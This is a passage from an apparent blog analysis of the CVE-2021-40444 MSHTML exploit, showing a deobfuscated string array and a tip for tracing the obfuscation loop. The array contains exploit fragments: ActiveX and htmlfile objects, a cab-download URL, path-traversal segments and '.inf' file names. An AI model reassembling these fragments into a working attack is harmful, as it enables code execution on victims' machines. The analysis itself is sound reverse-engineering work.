 Fine, now our new array is

```js
['#version=5,0,0,0', 'ssi', 'iframe', '748708rfmUTk', 'documentElement', 'lFile', 'location', '159708hBVRtu', 'a/Lo', 'Script', 'document', 'call', 'contentWindow', 'emp', 'Document', 'Obj', 'prototype', 'lfi', 'bject', 'send', 'appendChild', 'Low/championship.inf', 'htmlfile', '115924pLbIpw', 'GET', 'p/championship.inf', '1109sMoXXX', './../A', 'htm', 'l/T', 'cal/', '1wzQpCO', 'ect', 'w/championship.inf', '522415dmiRUA', 'http://127.0.0.1/test.cab', '88320wWglcB', 'XMLHttpRequest', 'championship.inf', 'Act', 'D:edbc374c-5730-432a-b5b8-de94f0b57217', 'open', '<bo', 'HTMLElement', '/..', 'veXO', '102FePAWC', '123', '365952KMsRQT', 'tiveX', '/Lo', './../../', 'contentDocument', 'ppD', 'Dat', 'close', 'Acti', 'removeChild', 'mlF', 'write', './A', 'ata/', 'ile', '../', 'body', 'setAttribute']
```

and if you want to count how many times it goes to else, simply you can make a flag variable with 0 value and add 1 when it goes into else and log it before the break.

![image-20210911103716067](/assets/img/posts/CVE-2021-40444/image-20210911103716067.png)

and if you did that. you can find the count easily in the console section

![image-20210911103812268](/assets/img/posts/CVE-2021-40444/image-20210911103812268.png)
